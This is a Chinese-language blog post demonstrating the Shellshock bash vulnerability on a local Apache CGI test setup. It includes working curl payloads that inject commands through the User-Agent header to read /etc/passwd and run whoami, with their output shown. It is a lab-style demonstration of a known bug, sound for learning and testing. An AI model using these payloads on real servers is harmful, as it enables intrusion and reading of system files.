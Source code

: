 ```yaml
---
title: Bash shock安全漏洞测试
tags: bash 漏洞
layout: post
---
```


昨天从微信上面，看到朋友发的最新的bash漏洞信息，感觉真的很可怕，现在互联网公司几乎都有使用到bash。现在我来带领大家实践一下使用这个漏洞的过程。

### 使Apache支持bash cgi
首先要确认Apache里面的CGI模块已经被载入 在httpd.conf 里面有一句：`LoadModule cgi_module modules/mod_cgi.so`这个必须有，然后搜索cgi-bin如果没有的话添加一段`ScriptAlias /cgi-bin/ "/var/www/cgi-bin"`

### 测试bash cgi Hello world
编辑文件：`vim /var/www/cgi-bin/hello.cgi`

    #!/bin/bash
    echo Content-type: text/html
    echo ""
    echo Hello, world.

执行以下命令：

    # chmod 755 /var/www/cgi-bin/hello.cgi`
    # curl localhost/cgi-bin/hello.cgi
    输出以下内容则代表Apache已经支持CGI了，就可以继续我们下面的测试
    Hello, world.

### 最可怕的测试

    localhost ~ # curl -A "() { :; }; echo ; /bin/cat /etc/passwd" http://localhost/cgi-bin/hello.cgi
    root:x:0:0:root:/root:/bin/bash
    bin:x:1:1:bin:/bin:/bin/false
    daemon:x:2:2:daemon:/sbin:/bin/false
    adm:x:3:4:adm:/var/adm:/bin/false
    lp:x:4:7:lp:/var/spool/lpd:/bin/false
    ... ... 

    localhost ~ # curl -A "() { :; }; echo ; /usr/bin/whoami" http://localhost/cgi-bin/hello.cgi
    apache

有牛人对这个漏洞进行了分析，本人表示看不懂，可以看一下
[Bash 3.0-4.3命令执行漏洞分析（by@知道创宇 lu4nx）](http://weibo.com/p/1001603758737234992740)


modifyed